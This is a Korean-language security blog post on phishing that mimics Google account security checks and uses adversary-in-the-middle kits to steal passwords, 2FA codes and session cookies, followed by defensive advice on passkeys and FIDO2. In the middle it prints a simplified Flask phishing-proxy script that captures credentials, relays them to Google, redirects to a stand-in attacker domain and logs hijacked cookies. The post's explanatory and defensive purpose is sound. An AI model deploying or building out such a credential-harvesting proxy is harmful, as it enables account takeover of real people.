

## 서론

긴급한 상황은 사람의 이성적인 판단을 마비시키기에 충분합니다. 여러분이 평소처럼 업무를 보던 중, 갑자기 구글(Google)로부터 "귀하의 계정에서 비정상적인 로그인 활동이 감지되었습니다. 즉시 보안 확인을 진행해 주십시오."라는 내용의 알림을 받았다고 상상해 보십시오. 화면의 디자인은 구글의 공식 스타일과 완벽하게 동일하고, URL조차 `google.com`으로 보일 정도로 교묘하게 위장되어 있습니다.

이때 대부분의 사용자는 당황하여 "보안 확인" 버튼을 클릭하고, 계정을 보호하기 위한 절차라고 믿으며 아이디와 비밀번호, 심지어 2단계 인증(2FA) 코드까지 입력하게 됩니다. 하지만 이 모든 과정은 해커가 설계한 정교한 올무 속에서 이루어지고 있습니다. 이것이 바로 최근 보고된 **보안 검증 절차(Security Check) 악용 공격**의 실체입니다.

왜 이 주제가 중요할까요? 단순한 피싱 공격과 달리, 이 공격은 사용자의 '보안 심리'를 역이용합니다. 사용자는 자신이 계정을 지키고 있다고 믿기 때문에 경계심을 내려놓게 됩니다. 이 글에서는 공격자가 정상적인 보안 절차를 위장해 계정을 탈취하는 기술적 원리와 이를 방어하기 위한 실질적인 대응 전략을 심도 있게 분석합니다.

*(⚠️ **윤리적 경고**: 본문에 포함된 기술적 내용 및 코드는 보안 취약점의 이해와 방어 목적을 위해 작성되었습니다. 비윤리적인 활동은 엄격히 금지됩니다.)*

## 본론

### 공격 시나리오 및 기술적 원리

이 공격의 핵심은 사용자가 자신의 계정을 되찾거나 보호하기 위해 보안 검증을 수행한다고 착각하게 만드는 '사회공학적 기법'과, 실제 로그인 과정을 중간에서 가로채는 '기술적 우회'의 결합에 있습니다. 공격자는 주로 AiTM(Adversary-in-the-Middle) 피싱 킷(Phishing Kit)을 사용하여, 피해자가 입력하는 자격증명과 2단계 인증 코드를 실시간으로 탈취합니다.

공격자는 피해자에게 "새로운 기기 로그인 감지", "계정 정지 위험", "보안 설정 만료" 등을 알리는 스팸 이메일이나 SMS를 발송합니다. 여기에 포함된 링크는 공격자가 운영하는 C2(Command & Control) 서버로 연결됩니다. 이 서버는 공식 구글 로그인 페이지와 동일한 UI를 제공하며, 사용자의 입력을 백엔드에서 실제 구글 서버로 전달(프록시)하여 정상적인 로그인이 이루어지도록 돕습니다. 이 과정에서 발생하는 세션 쿠키(Session Cookie)나 인증 토큰을 가로채면, 공격자는 비밀번호 없이도 피해자의 계정에 즉시 접근할 수 있습니다.

아래 다이어그램은 이러한 공격 흐름을 시각적으로 요약한 것입니다.



### 악용 시나리오 코드 분석 (개념 증명)

공격자가 어떻게 사용자의 입력을 가로채는지 이해하기 위해, 아주 단순화된 형태의 피싱 서버 스크립트(Python/Flask)를 살펴보겠습니다. 실제 해커들은 더 복잡하고 난독화된 도구를 사용하지만, 기본 원리는 다음과 같습니다.

*⚠️ 아래 코드는 보안 교육 및 분석 목적으로만 제공됩니다.*

```python
from flask import Flask, request, redirect
import requests

app = Flask(__name__)

# 공격자의 C2 서버 주소
ATTACKER_DOMAIN = "http://evil-server.com"
# 실제 구글 로그인 엔드포인트 (예시)
REAL_GOOGLE_LOGIN = "https://accounts.google.com/signin/challenge"

@app.route('/login', methods=['POST'])
def capture_credentials():
    # 1. 피해자가 입력한 이메일과 비밀번호 추출
    email = request.form.get('email')
    password = request.form.get('password')
    
    # [악용] 탈취한 정보를 공격자가 저장 (Log 파일 등)
    print(f"[!] Captured Credentials: {email} | {password}")
    
    # 2. 탈취한 정보를 바탕으로 실제 구글 서버에 요청 생성 (프록시 역할)
    # 실제 공격에서는 쿠키와 헤더도 위조하여 전송
    session = requests.Session()
    response = session.post(REAL_GOOGLE_LOGIN, data={
        'Email': email,
        'Passwd': password
    })
    
    # 3. 만약 2FA가 필요한 경우, 사용자에게 2FA 입력 페이지를 다시 띄움
    if "challenge" in response.url:
        return redirect(f"{ATTACKER_DOMAIN}/2fa_prompt")
    
    # 4. 로그인 성공 시, 세션 쿠키 획득 및 탈취
    auth_cookie = session.cookies.get_dict()
    print(f"[!] Hijacked Session Cookie: {auth_cookie}")
    
    return "Account Verified. Redirecting..."

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

이 코드는 공격자의 서버가 사용자와 구글 사이에서 중간자 역할을 수행함을 보여줍니다. 사용자는 자신이 구글과 직접 통신한다고 믿지만, 실제로는 모든 민감 정보가 공격자의 서버를 거쳐가고 있습니다.

### 정상 보안 절차 vs 악성 시도 식별

사용자가 이 공격에 당하지 않으려면 정상적인 보안 절차와 위장된 시도를 구별하는 능력이 필요합니다. 다음은 주요 특징을 비교한 표입니다.

| 구분 | 정상적인 Google 보안 절차 | 악성 피싱 시도 (Phishing) | | :--- | :--- | :--- | | **시작 경로** | 사용자가 직접 Gmail 설정에 접속하거나, 공식 앱에서 알림 수신 | 예기치 않은 이메일, SMS, 팝업창을 통해 강제로 시작됨 | | **URL 형태** | `accounts.google.com`, `myaccount.google.com` 등 공식 도메인 | `google.security-check.com`, `g00gle-verify.com` 등 오타나 서브도메인 이용 | | **긴박성 조성** | 단순 알림 형태, 사용자가 원할 때 수행 가능 | "즉시 확인하지 않으면 계정이 삭제됩니다" 등 심리적 압박 가함 | | **정보 요구 범위** | 기존 비밀번호 확인 또는 2단계 인증 코드 요구 | 불필요하게 카드 정보, 추가 개인정보 등을 과도하게 요구할 수 있음 |

### 계정 보호를 위한 실무 가이드

이러한 정교한 공격으로부터 계정을 보호하기 위해서는 다단계의 방어 전략이 필요합니다. 특히 비밀번호와 2FA 코드만으로는 세션 하이재킹(Session Hijacking)을 막을 수 없습니다.

1.  **FIDO2 / 패스키(Passkeys) 도입**     전통적인 SMS나 OTP 기반 2FA는 피싱에 취약할 수 있습니다. FIDO2 표준 기반의 하드웨어 키(예: YubiKey)나 생체 인식 기반의 패스키는 도메인 바인딩(Domain Binding) 기술을 사용합니다. 즉, 사용자의 인증은 `evil-site.com`이 아닌 실제 `google.com`에서만 유효하므로, 피싱 사이트에서 획득한 인증으로는 로그인이 불가능합니다.

2.  **고급 보안 프로그램(Advanced Protection Program) 가입**     높은 위험에 노출된 사용자(저널리스트, 활동가, 보안 전문가 등)는 구글의 고급 보안 프로그램에 가입할 수 있습니다. 이는 보안 키를 필수로 요구하며, 계정 복구 시 더 엄격한 검증을 거치게 하여 탈취 위험을 최소화합니다.

3.  **로그인 시도 검토 및 기기 관리**     주기적으로 [Google 계정 보안] 페이지에서 접속한 기기 목록을 확인하고, 인식하지 못하는 기기가 있다면 즉시 '로그아웃' 및 '계정 액세스 삭제' 조치를 취해야 합니다.

## 결론

Gmail 계정 탈취 공격의 패러다임이 단순한 비밀번호 탈취에서 '보안 검증 절차 악용'으로 진화했습니다. 해커들은 사용자가 보안에 민감해질수록, 그 보안 심리를 역으로 이용하는 정교한 사회공학 기법을 사용하고 있습니다. 특히 AiTM(Adversary-in-the-Middle) 기술을 통해 2단계 인증조차 우회하는 현실에서, 우리는 기존의 인증 방식이 더 이상 완벽한 안전지대가 아님을 인지해야 합니다.

전문가로서의 인사이트를 하나 덧붙이자면, **"인증의 미래는 비밀번호가 아니라 신원 확인(Identity Verification)"**입니다. 콘텍스트(Context) 기반의 인증과 하드웨어적 신뢰 루트(Trust Root)를 활용한 패스키(Passkeys)로의 전환은 선택이 아닌 필수가 되어가고 있습니다. 개인 사용자는 의심스러운 보안 알림에 클릭하기보다 공식 앱을 통해 직접 확인하는 습관을 들이고, 기업은 FIDO2와 같은 피싱 저항성 인증 기술 도입을 서둘러야 합니다.

## 참고자료

- [Forbes - New Gmail Account Attack Warning—Hackers Abuse Critical Security Check](https://www.forbes.com/sites/daveywinder/2024/06/17/new-gmail-account-attack-warning-hackers-abuse-critical-security-check/)

- [Google Account Help - Sign in with a security key (Passkeys)](https://support.google.com/accounts/answer/9132557)

- [OWASP - OWASP Top 10: Broken Access Control](https://owasp.org/www-project-top-ten/)
